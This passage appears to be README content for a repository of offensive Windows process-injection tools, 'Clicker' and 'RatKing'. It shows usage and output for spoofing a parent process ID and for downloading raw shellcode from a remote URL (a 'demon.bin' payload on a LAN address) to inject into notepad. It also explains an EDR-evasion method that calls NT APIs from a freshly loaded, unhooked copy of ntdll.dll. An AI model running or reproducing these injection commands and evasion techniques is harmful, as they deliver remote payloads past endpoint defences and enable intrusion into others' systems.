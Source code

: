 ```
  -h, --help       Display help screen manual.
  
|--------------
| File          : ./Clicker.exe
| PPID Spoofing : 4160
| Argument 1    : http://192.168.231.128:9090/demon.bin
| Argument 2    : notepad
| Argument 3    : 4160
|--------------

[>] CreateProcessW()
    |-> Process Mitigation Policy Enforced!
    |-> Spoofed Parent PID Successfully!
    |-> Target Process Created!
    |-> PID: 19520
```

### RatKing
RatKing is the successor of `Clicker` as it uses the same boilerplate to perform process injection. At runtime, a fresh copy of `ntdll.dll` is loaded into the process. The original `ntdll.dll` that was hooked by EDR is left untouched. All NT*API are exported and called from the clean copy of `ntdll.dll` instead. This EDR evasion method is especially effective because the integrity of EDR hooks are not tampered with.
```
C:\>RatKing.exe -u http://192.168.231.128:9090/demon.bin -t notepad -p 4160 -k

              .'''''-,              ,-`````.
              `-.._  |              |  _..-'
                 \    `,          ,'    /
                 '=   ,/          \,   =`
                 '=   (            )   =`
                .\    /            \    /.
               /  `,.'              `.,'  \
               \   `.                ,'   /
                \    \              /    /
                 \   .`.  __.---. ,`.   /
                  \.' .'``        `. `./
                   \.'  -'''-..     `./
                   /  /        '.      \
                  /  / .--  .-'''`      '.
                 '   |    ,---.    _      \
     /``-----._.-.   \   / ,-. '-'   '.   .-._.-----``\
     \__ .     | :    `.' ((O))   ,-.  \  : |     . __/
      `.  '-...\_`     |   '-'   ((O)) |  '_/...-`  .'
 .----..)    `    \     \      /  '-'  / /    '    (..----.
(o      `.  /      \     \    /\     .' /      \  .'      o)
 ```---..   `.     /`.    '--'  '---' .'\     .'   ..---```
         `-.  `.  /`.  `.           .' .'\  .'  .-'
            `..` /   `.'  ` - - - ' `.'   \ '..'
                /    /                \    \
               /   ,'                  `.   \
               \  ,'`.                .'`.  /
                `/    \              /    \'
                 ,=   (              )   =,
                 ,=   '\            /`   =,
   RatKing       /    .'            `.    \
              .-'''  |                |  ```-.
              `......'                `......'

Process Injector 4: RatKing (Manual Mapping ntdll.dll)

  -u, --url      Required. Remote URL address for raw shellcode.

```